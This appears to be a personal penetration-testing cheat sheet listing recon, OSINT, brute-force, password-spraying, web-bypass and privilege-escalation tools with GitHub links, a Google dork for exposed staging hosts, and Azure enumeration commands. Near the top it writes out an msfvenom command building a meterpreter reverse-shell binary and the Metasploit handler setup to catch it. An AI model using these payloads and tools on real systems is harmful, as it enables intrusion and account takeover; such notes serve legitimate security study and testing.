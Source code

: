 # stuff to try and then put on a "correct" place in the step_by_Step

{url}/robots.txt
crt.sh
sublister


msfconsole
systemctl start postgresql
msfdb init
db_status 
workspace -a {name}
db_nmap -sV -p- {ip}
use {exploit}
hosts -R
msfvenom #generate shell binarys fe: msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST={ip} LPORT=4444 -f elf > rev_shell.elf
use exploit/multi/handler #same as nc -lvnp {port}
set payload linux/x86/meterpreter/reverse_tcp
set lhost {ip}
set lport 4444
ctrl+z #session in the background to use for later

kerbrute
go witnes
nuclei
caido
lazygit
git bisect
wpscan
dirsearch
spiderfoeot
sherlock
gitleaks

https://threatfox.abuse.ch/browse/
https://sslbl.abuse.ch/

https://learn.microsoft.com/en-us/security/

https://learn.microsoft.com/en-us/training/browse/?hideCompleted=true&levels=beginner&subjects=security&resource_type=learning%20path&roles=security-engineer

authenticate network time protocol
Als gespoofd kan ddos voor authenticatie denyen doordat time niet goed is
certificate can "expire"

MICROSoft cloud defender
intel explorer

https://docs.google.com/file/d/0B7d_gqEI7itKMTJxc0dycFhvUmM/edit?resourcekey=0-UVtEXBuq4nWE75ZNCmKw8g

https://github.com/freelabz/secator

https://github.com/hacking-support/DVUEFI

http://www.catb.org/esr/faqs/hacker-howto.html

C:\Windows\ImmersiveControlPanel\Settings\AllSystemSettings_{253E530E-387D-4BC2-959D-E6F86122E5F2}.xml

emailrep.io

dirbuster

flask-unsign

https://github.com/p1ngul1n0/blackbird
https://github.com/RevoltSecurities/Subdominator
https://github.com/Sn1r/Forbidden-Buster
https://github.com/lobuhi/byp4xx
https://github.com/iamj0ker/bypass-403
https://github.com/dirtycoder0124/formcrawler
https://github.com/shaikhsajid1111/social-media-profile-scrapers
https://github.com/m4ll0k/SecretFinder
https://github.com/martinvigo/email2phonenumber?tab=readme-ov-file
https://github.com/z0m31en7/Uscrapper
https://github.com/twelvesec/gasmask
https://github.com/un9nplayer/AutoRecon-XSS
https://github.com/gtworek/PSBits/tree/master/NetShRun
https://github.com/PaulNorman01/Forensia
https://github.com/z0m31en7/Uscrapper
https://github.com/XDeadHackerX/NetSoc_OSINT
https://github.com/lefayjey/linWinPwn
https://github.com/0x2458bughunt/SQLi-Automation
https://github.com/projectdiscovery/cdncheck
https://github.com/EmperialX/XSS-Automation-Tool
https://github.com/ethicalhackingplayground/pathbuster
https://github.com/channyein1337/jsleak
https://github.com/MattKeeley/Spoofy
https://github.com/projectdiscovery/notify
https://github.com/gwen001/gitpillage
https://github.com/securebinary/o365sprayer
https://github.com/lc/theftfuzzer
https://github.com/GerbenJavado/LinkFinder
https://github.com/tomnomnom/unfurl
https://github.com/peass-ng/PEASS-ng
https://github.com/rebootuser/LinEnum
https://github.com/DominicBreuker/pspy
https://github.com/linted/linuxprivchecker




sherlock -u ausername
gitdumper
katana
corscanner
sshbrute
intel one
eagleeye
xss2png
getallurls

site:{site.com} inurl:test | inurl:env | inurl:dev | inurl:staging | inurl:sandbox | inurl:debug | inurl:temp | inurl:internal | inurl:demo

impacket

az interactive: so no az needs to be typed each time
az upgrade
az vm list
az vm list-ip-addresses
az network public-ip list
az network nsg list --query '[].name' --output tsv

https://techcommunity.microsoft.com/t5/security-compliance-and-identity/join-our-microsoft-security-community/ba-p/927888
veeamclick.be
